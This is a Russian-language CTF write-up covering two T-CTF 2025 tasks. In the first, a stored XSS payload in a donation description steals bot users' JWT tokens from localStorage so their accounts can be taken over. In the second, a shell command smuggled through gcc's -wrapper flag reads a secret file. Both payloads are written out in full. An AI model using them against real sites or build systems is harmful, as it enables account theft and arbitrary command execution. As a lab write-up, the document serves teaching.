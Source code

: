 ## Вот и подошла к концу T-CTF 2025.
Мероприятие было очень интересным, таски не заставляли скучать :D
Хотел бы поделиться решениями и впечатлениями от нескольких заданий, написать так называемый **"WriteUp"**. *(Первый в моей жизни)*

>[!important]
>Приятного прочтения! (не судите строго, пишу первый раз)

---

**P.S**: К сожалению я не мог полностью присутствовать все время соревнования, но тем не менее успел решить несколько штук ;)

---
### Содержание:
- #### [Капибординг](#Капибординг)
- #### [Капибассейн](#Капибассейн)

## Капибординг
Достаточно простое задание, в котором я почти сразу же нашел `XSS` (Так же было задание, очень похожее на это, тоже с экспуатацией `XSS`)

#### Начнем:
Сначала зарегестрируем нового пользователя
![[img1](../sources/TCTF2025/Pasted%20image%2020250422130419.png)
Видим, что нам каким-то чудом надо залутать аж **100500** часов💀💀. Что-ж, давайте шерстить сайт. Немножко посмотрев содержимое, наткнемся на интересную страничку:
![[img2](../sources/TCTF2025/Pasted%20image%2020250422130544.png)
Давайте попробуем назвать наш донат как-то так и посмотреть что получится:
![[img3](../sources/TCTF2025/Pasted%20image%2020250422131656.png)
В исходном коде описание выглядит как:
```
<div><><^@#)!_</div>
```

Символы не были экранированы! Что-ж, попробуем:
![[img4](../sources/TCTF2025/Pasted%20image%2020250422131817.png)
При клике на "Просмотр":
![img5](../sources/TCTF2025/Pasted%20image%2020250422131835.png)
Готово! Теперь раскрутим найденную брешь
Заметим, что в качестве проверки авторизации используется `JWT`, это можно понять по заголовку `HTTP`:
![[img6](../sources/TCTF2025/Pasted%20image%2020250422131949.png)

Теперь уже точно ясно что нам надо сделать:
1. Создать второй акк, задонатить туда 1 минуту
2. Посмотреть структуру пакета
3. Написать ~~злой~~ вредоносный `JS` код который будет отправлять нам денежки 😈😈😈

#### 1. Структура пакета ручки `/donate`:
```http
POST /api/donation-pages/<DONATION-ID>/donate HTTP/2
Host: t-alps-dj3q0r2m.spbctf.org
Cookie: __cfduid=c0fb1d439b98593b97f0a30be3258576
Content-Length: 13
Sec-Ch-Ua-Full-Version-List: 
Sec-Ch-Ua-Platform: "Linux"
Authorization: Bearer <TOKEN>
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Chromium";v="129", "Not=A?Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: application/json, text/plain, */*
Content-Type: application/json
Sec-Ch-Ua-Platform-Version: ""
Origin: https://t-alps-dj3q0r2m.spbctf.org
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://t-alps-dj3q0r2m.spbctf.org/donate/bKFSojF3qsnrfOuk
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

{"minutes":1}
```

#### 2. Пишем JS код
Теперь описание нашего доната выглядит так:
```json
<img src=x onerror="
fetch('/api/donation-pages/<DONATION-ID>/donate', 
	{
		method: 'POST',
		headers:
		{
			'Content-Type': 'application/json',
			'Authorization': 'Bearer ' + localStorage.getItem('token')
		},
		body: 
			JSON.stringify({minutes: 1})
	}
);">
```
По идее, жертва, посещая на страницу с нашим донатом, автоматически отправляет нам указанную сумму денег. Но это работало очень странно, мои денежки отсылались, а ботов - нет :(

Поэтому я немного изменил эксплойт, так, чтобы он отсылал токены JWT в комментарии:
```json
<img src=x onerror="
fetch('/api/donation-pages/<DONATION-ID>/comments', 
	{
		method: 'POST',
		headers:
		{
			'Content-Type': 'application/json',
			'Authorization': 'Bearer ' + localStorage.getItem('token')
		},
		body: 
			JSON.stringify({minutes: 1})
	}
);">
```

Теперь под указанным донатом боты любезно слили мне свои токены `JWT` 😛
![img7](../sources/TCTF2025/Pasted%20image%2020250422133758.png)

После того, как я получил токены, я посетил аккаунт одного из ботов
![img8](../sources/TCTF2025/Pasted%20image%2020250422133857.png)

И задонатил себе нужную кругленькую сумму :)
![img9](../sources/TCTF2025/Pasted%20image%2020250422133954.png)

## Капибассейн
Интересная таска, заставляющая читать документацию 😞
И конечно же не обошель без нашего старого доброго... С! Язык крутой, но, думаю, даже **Ритчи** не до конца его понимает... Не буду томить, перейдем к решению!

Подключаемся по SSH, видим такую картину:
![[img10](../sources/TCTF2025/Pasted%20image%2020250422134830.png)

Задание предлагает нам разобраться с флагами для компиляции проги. Читаем ошибки и видим, что `gcc` не может найти `printf`:
```c
main.c:29:5: note: include '<stdio.h>' or provide a declaration of 'printf'
```

**Капиинженер**, в свою очередь, просит вставить *чото* в команду компиляции:
`<Капинженер> Чо сюда вставить: gcc main.c -std=c11 -L. -lbasin-control →???← -o main`

Я, не долго думая, посмотрел где лежит эта либа у меня на машине и прикрутил к флагу импорта библиотек. Получилось это:
```bash
-include "/usr/include/stdio.h"
```

Полная команда:
```bash
gcc main.c -std=c11 -L. -lbasin-control -include "/usr/include/stdio.h" -o main
```

Смотрим на вывод:
![[img11](../sources/TCTF2025/Pasted%20image%2020250422135231.png)

Круто, все скомпилилось! Но есть одно но: флаг теперь находится в другом документе. Вот тут я плотно просел. 

Анализируем код:
```c
#include "basin-control/lib.h"

#include <unistd.h>
#include <stdlib.h>

#define EXIT_ON_ERROR(exp) \
if ((exp) < 0) { \
    perror(# exp); \
    return -1; \
}

int main()
{
    EXIT_ON_ERROR(basic_control_init());
    EXIT_ON_ERROR(basic_control_auth("./secret.txt"));
```

Видим, что путь до секрета **ЗАХАРДКОЖЕН**!!! Еще видим макрос, который можно попытаться изменить (что я и делал), но в данном задании это бесполезно

Я долго искал пути решения и возможность "динамически" что-то подкрутить, одной из первых моих мыслей, однако, была эта:
```А можно ли как-то выполнить bash скриптик прямо из gcc?```

Оказывается, МОЖНО!!
И делается это с помощью специального флага `-wrapper`:
```bash
-wrapper '/bin/sh,-c,echo -e "#include<stdlib.h>\nint main(){system(\"cat new_secret.txt\");return 0;}" > steal.c && gcc steal.c -std=c11 -L. -lbasin-control -o main #'
```

-wrapper '/bin/sh,-c,echo -e "cat new_secret.txt"'

И это сработало. Обидно только, что инфу про это искать сложно 😞
```bash
<Капинженер> Агонь, оно успешно скомпилировалось. Ща запущу:
tctf{Y0U_aR3_7HE_gRea7E57_CapybAR4_saVeR}
<Капинженер> Почему температура не исправилась ???¿¿¿ Давай что-то другое вставим!
```

И мы даже немного обманули задание, тк просто вывели себе флаг на блюдечке (скомпилили *новую* прогу, которая просто вывела флаг), без дальнейшего анализа кода и его решения 😉

По сути полный код выглядел так:
```bash
gcc main.c -std=c11 -L. -lbasin-control -wrapper '/bin/sh,-c,echo -e "#include<stdlib.h>\nint main(){system(\"cat new_secret.txt\");return 0;}" > steal.c && gcc steal.c -std=c11 -L. -lbasin-control -o main #' -o main
```

Есть и альтернативное решение, оно попроще:
```bash
-wrapper '/bin/sh,-c,echo -e "cat new_secret.txt"'
```

```bash
<Капинженер> Запускаю: gcc main.c -std=c11 -L. -lbasin-control -wrapper '/bin/sh,-c,echo -e "cat new_secret.txt"' -o main
cat new_secret.txt
cat new_secret.txt
cat new_secret.txt

<Капинженер> Агонь, оно успешно скомпилировалось. Ща запущу:
tctf{Y0U_aR3_7HE_gRea7E57_CapybAR4_saVeR}
```

В общем, все упирается в возможность выполнения `bash` скрипта. Возможно разработчики подразумевали дальнейшее взаимодействие и анализ кода, но мы же хацкеры как никак 😉

---
>[!Attention]
>Пока что все, со временем обновлю **README**, добавлю еще решений!!

*by CacucoH*